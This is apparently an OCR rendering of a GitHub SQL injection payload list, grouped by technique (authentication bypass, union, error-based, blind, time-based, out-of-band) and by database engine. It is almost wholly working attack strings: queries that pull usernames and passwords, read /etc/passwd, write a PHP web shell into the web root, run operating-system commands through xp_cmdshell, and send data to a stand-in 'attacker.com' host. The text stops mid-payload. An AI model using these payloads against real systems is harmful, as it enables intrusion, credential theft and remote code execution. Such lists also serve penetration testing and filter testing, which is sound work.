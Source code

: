 

# SQL Injection (SQLi) Payloads List

Below is a collection of common SQL injection payloads categorized by attack type and database technology.

## Basic Authentication Bypass

```
' OR '1'='1
' OR 1=1 --
' OR 1=1 #
admin' --
admin' #
admin'/*
admin' OR '1'='1
```

## Union-Based Attacks

```
UNION SELECT null,username,password FROM users--
UNION SELECT 1,2,3,4--
UNION ALL SELECT database(),user(),version()--
```

## Error-Based Attacks

```
AND (SELECT 0 FROM (SELECT count(*),concat(version(),floor(rand(0)*2))x FROM information_schema.tables GROUP BY x)a)
AND GTID_SUBSET(CONCAT(0x7e,(SELECT USER()),0x7e),0)
EXTRACTVALUE(rand(),concat(0x3a,(select database())))
```

## Boolean-Based Blind SQLi

```
AND SUBSTRING((SELECT password FROM users WHERE username='admin'),1,1)='a'
AND ASCII(SUBSTRING((SELECT database()),1,1))>100
```

## Time-Based Blind SQLi

```
IF(SUBSTRING(database(),1,1)='a',SLEEP(5),0)
; WAITFOR DELAY '0:0:5' --
OR (SELECT * FROM (SELECT(SLEEP(5)))a)
```

## Database-Specific Payloads

### MySQL
```
@@version
LOAD_FILE('/etc/passwd')
INTO OUTFILE '/var/www/html/shell.php'
CONNECTION_ID()
```

### MSSQL
```
@@SERVERNAME
xp_cmdshell('whoami')
WAITFOR DELAY '0:0:5'
```

### Oracle
```
(SELECT banner FROM v$version WHERE rownum=1)
UTL_HTTP.REQUEST('http://attacker.com')
DBMS_LOCK.SLEEP(5)
```

### PostgreSQL
```
current_database()
pg_sleep(5)
COPY (SELECT '<?php system($_GET[cmd]); ?>') TO '/var/www/html/shell.php'
```

## Out-of-Band Techniques

```
||UTL_HTTP.request('http://attacker.com/'||database())--
EXEC master..xp_dirtree '\\att